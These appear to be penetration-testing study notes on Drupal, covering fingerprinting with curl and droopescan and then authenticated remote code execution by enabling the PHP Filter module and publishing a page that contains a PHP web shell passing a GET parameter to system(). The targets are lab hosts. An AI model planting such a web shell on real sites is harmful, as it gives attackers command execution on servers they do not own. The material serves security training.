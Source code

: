 # Discovery/Footprinting Versions

A Drupal website can be identified in several ways, including by the header or footer message `Powered by Drupal`, the standard Drupal logo, the presence of a `CHANGELOG.txt` file or `README.txt file`, via the page source, or clues in the robots.txt file such as references to `/node`.

`Discovering drupal`
```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Another way to identify Drupal CMS is through [nodes](https://www.drupal.org/docs/8/core/modules/node/about-nodes).  `/node/<nodeid>`.

## FingerPrinting the version

Newer installs of Drupal by default block access to the `CHANGELOG.txt` and `README.txt` files, 

`changelog.txt`
```shell-session
$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

`droopscan`
```
$ droopescan scan drupal -u http://drupal.inlanefreight.local
```

##     RCE authenticated)
#### Leveraging the PHP Filter Module

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."
![](drupal_php_module.webp)
From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

![](basic_page.webp)
We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common `cmd` to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard `system($_GET['cmd']);` we open up ourselves up to a "drive-by" attacker potentially coming across our web shell. Though unlikely, better safe than sorry!

Code: php

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
![](basic_page_shell_7v2%201.webp)
